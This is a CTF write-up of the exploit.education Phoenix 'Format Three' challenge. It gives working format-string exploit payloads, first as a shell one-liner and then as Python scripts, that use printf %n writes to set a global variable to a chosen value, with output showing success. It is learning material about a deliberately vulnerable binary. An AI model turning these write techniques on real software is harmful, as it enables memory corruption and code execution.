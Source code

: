 ```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x3"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Format 3

Write-up for: [Format Three](https://exploit.education/phoenix/format-three/)

<!--more-->

This is the same bug as the previous challenge but now we want to write a specific value to the location of the global variable `changeme`.

The way to write data using the `printf` family of functions is using the format specifier `%n` as demonstrated in the previous challenge. Only this time, we want to write a specific value. For this we only need to change our payload like this (note that format-three takes input from stdin):

```
./format-three < <(python -c 'print "%10x\x08\x04\x98\x44"[::-1] + "%p %p %p %p %p %p %p %p %p %p %p %p" + "%" + str(int(0x64457845 - 0x59)) + "x"  +  "%n"')

```

Basically, we make sure to pop 12 values from the stack (as before) AND we make sure to print 0x64457845 characters before using the `%n` format specifier. We do this by using a prefix to the `%x` specifier, adding a padding to this value.

Running this exploit takes forever since we need to print 0x64457845 characters. Which is a lot. If this were a network-based exploit this would not be feasible at all. We need to find a better approach.

# Improving the exploit

This is not really efficient since we have to write a LOT of bytes. Alternatively, we could try to write 4 single bytes. For this we need to have 4 addresses on the stack that we can use together with the `%n` format specifier.

```python
buf = "\x08\x04\x98\x44"[::-1]  
buf += "AAAA" 
buf += "\x08\x04\x98\x45"[::-1]
buf += "AAAA"
buf += "\x08\x04\x98\x46"[::-1]
buf += "AAAA"
buf += "\x08\x04\x98\x47"[::-1] 
buf += "%c" + "%c"*10 + "%n" 
buf += "%c" + "%n" 
buf += "%c" + "%n" 
buf += "%c" + "%n" 
print buf
```

The idea was to write one byte at a time to reduce the number of characters necessary. While this is generally possible, it will fail here since every write is going to influence subsequent writes. I.e. if for the first byte we need to write `0x65` this means the next byte will be a minimum of `0x66`. Thus, this technique is not applicable here.

However, what we can try is writing 2 bytes at once. We have a similar problem than before because 0x6445 is smaller than 0x7845. However, we can overcome this due to the fact that we always write 4 bytes at once. So even though the second write will be larger than the first write, we can just increase the number so it overflows into the next byte.

                Offset
+5  +4  +3  +2  +1  +0
XX  XX  64  45  78  45

This means we want to write `0x00007845` to the lower two bytes and `0x00016456` to the higher two bytes. `0x16456` is clearly larger than `0x07845`, so we can keep increasing our character count until the second `%n`.

We now only need to figure out the correct offsets (i.e. number of characters to print before each `%n`). The first write is simple. It is `0x7845 - number of bytes in our buffer so far - 10`. The 10 is the number of arguments we provide before hitting the address stored at the beginning of our buffer.

And the second write (found with a little trial and error):
`0x16456 - 0x7845 - 17`

Let's see this in action:

```python
import struct

ADDR = 0x08049844

buf = struct.pack("I", ADDR)
buf += "AAAA" # Add padding between addresses since we can't access arguments directly. This ensures that between the first and second write we can add more padding to control the value we write
buf += struct.pack("I", ADDR + 2)
buf += "%" + str(0x7845 - len(buf) - 10) + "x" + "%c" * 10 + "%n" # Write to lower 2 bytes, address is at the 12th argument position. We don't have the '$' sematic on this machine so we need to provide explicit format specifiers until %n is the 12th one.
buf += "%" + str(0x16456 - 0x7845 - 17) +  "x" + "%n" # Write to upper 2 bytes

print buf
```

First, we put our both target addresses (found via objdump) on the stack. We separate the two addresses with `AAAA` to allow us to put one format specifier between the two `%n` write modifiers. This means, the first address will be the 12th "argument" to printf and the second address will be the 14th. The 13th can be used to alter the second write operation.

Next, we write to the lower 2 bytes (0x7845). This means we need to fill the buffer so that when we hit the `%n` there were exactly 0x7845 bytes written so far. Then we add 10 more 1-byte arguments before the `%n` so that the `%n` pops the correct value off the stack.

Lastly we write 0x(1)6456 to the upper bytes by again padding the print buffer with a single `%x` specifier. The last `%n` will pop the 14th value off the stack (the target address + 2) and write there.

Let's run this exploit:

```
user@phoenix-amd64:/opt/phoenix/i486$ ./format-three < <(python ~/format-three.py) | tail -n 1
Well done, the 'changeme' variable has been changed correctly!
```

Done! This is a lot better than our first attempt :)

# Afterword

Thinking back to the attempt writing one byte at a time: this would probably work as well using the overflow technique. I'll leave this as an exercise to the reader.

# Additional resources

Concept of two-byte write explained by LiveOverflow: [http://liveoverflow.com/binary_hacking/protostar/format4.html](http://liveoverflow.com/binary_hacking/protostar/format4.html)

